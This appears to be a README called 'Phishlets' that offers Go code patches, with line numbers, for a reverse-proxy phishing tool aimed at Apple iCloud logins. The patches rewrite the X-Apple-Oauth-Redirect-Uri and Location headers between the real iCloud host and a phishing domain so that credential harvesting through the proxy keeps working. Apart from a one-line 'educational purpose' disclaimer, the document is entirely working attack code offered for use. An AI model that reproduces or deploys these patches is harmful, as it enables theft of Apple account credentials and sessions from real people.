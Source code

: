 # Phishlets
Educational Purpose !
This is only for Education Purpose not use for harming to anyone.

				//Replace User Agent Header
				useragent := req.Header.Get("X-Apple-Oauth-Redirect-Uri")
				if useragent != "" {
					req.Header.Set("X-Apple-Oauth-Redirect-Uri", "https://www.icloud.com")
					log.Debug("[%d] X-Apple-Oauth-Redirect-Uri: https://www.icloud.com", ps.Index)

				} 	
        
 line no 652 to 665      
			// if "Location" header is present, make sure to redirect to the phishing domain
			r_url, err := resp.Location()
			if err == nil {
				if r_host, ok := p.replaceHostWithPhished(r_url.Host); ok {
					r_url.Host = r_host
					loc := resp.Header.Get("Location")
					if loc == "/auth" {
						resp.Header.Set("Location","/auth")
					} else {
						resp.Header.Set("Location", r_url.String())
					}
					
				} 
			}        
        
line no 408	
				// fix apple request header 
				ref := req.Header.Get("X-Apple-Oauth-Redirect-Uri")
				if ref != "" {
					if o_url, err := url.Parse(ref); err == nil {
						if r_host, ok := p.replaceHostWithOriginal(o_url.Host); ok {
							o_url.Host = r_host
							req.Header.Set("X-Apple-Oauth-Redirect-Uri", o_url.String())
						}
					}
				}	
			


